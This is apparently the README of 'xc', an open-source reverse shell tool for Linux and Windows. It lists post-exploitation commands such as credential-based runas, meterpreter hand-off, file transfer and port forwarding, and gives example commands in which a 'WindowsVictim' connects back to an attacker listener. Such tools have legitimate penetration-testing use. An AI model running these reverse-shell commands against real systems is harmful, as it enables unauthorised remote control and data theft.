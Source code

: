 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental so pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !portfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (similar to ssh -L)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !portfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (similar to ssh -L)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)


[![asciicast](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5.svg)](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5)

## Setup

Windows:
```
go get github.com/hashicorp/yamux
go build
```

Linux:
```
make
```

You probably want to replace the ssh keys in the keys folder if you plan to use the ssh server on linux. These will be used to spawn a ssh server with the !ssh command on linux.